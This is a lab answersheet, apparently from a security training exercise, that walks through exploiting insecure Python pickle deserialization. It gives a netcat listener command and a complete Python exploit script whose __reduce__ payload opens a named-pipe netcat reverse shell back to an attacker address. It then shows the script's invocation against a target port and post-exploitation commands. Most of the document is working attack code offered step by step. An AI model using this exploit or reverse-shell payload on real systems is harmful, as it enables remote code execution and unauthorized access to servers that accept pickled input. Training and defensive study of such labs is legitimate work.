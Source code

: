 # Python Deserialization Answersheet

**Step 1:** Navigate to "Python: Connect over TCP Socket: 16662"
<kbd> <img src="1.png" /> </kbd>
<br /> <br />

**Step 2:** Capture the IP Address and port.
<kbd> <img src="2.png" /> </kbd>
<br /> <br />

**Step 3:** Start the listener using following command
```
`nc -nlvp 5555
```
<kbd> <img src="3.png" /> </kbd>
<br /> <br />

**Step 4:** Use the following code to generate the payload
```python
#!/usr/bin/env python
#payload.py
import pickle
import socket
import os
import sys

if len(sys.argv) < 5:
    print "Usage: python py_exploit.py <attacker_ip_address> <attacker_port> <docker_ip_address> <docker_port>"
    sys.exit(1)

localIP=sys.argv[1] 
localPort=sys.argv[2]
dockerIP=sys.argv[3]
dockerPort=sys.argv[4]


class payload(object):
	def __reduce__(self):
		comm = "rm /tmp/shell; mknod /tmp/shell p; nc "+localIP+" "+localPort+" 0</tmp/shell | /bin/sh 1>/tmp/shell"
		return (os.system, (comm,))

payload = pickle.dumps( payload())
soc = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
soc.connect((dockerIP, int(dockerPort)))
print soc.recv(1024) 
soc.send(payload) 
```

**Step 5:** Run the exploit file using following command
```
python py_exploit.py 192.168.29.88 5555 192.168.29.201 16662
```
<kbd> <img src="4.png" /> </kbd>
<br /> <br />

**Step 6:** Received the connection on Reverse shell and now we can extract the system information using whoami, uname -a command
<kbd> <img src="5.png" /> </kbd>
<br /> <br />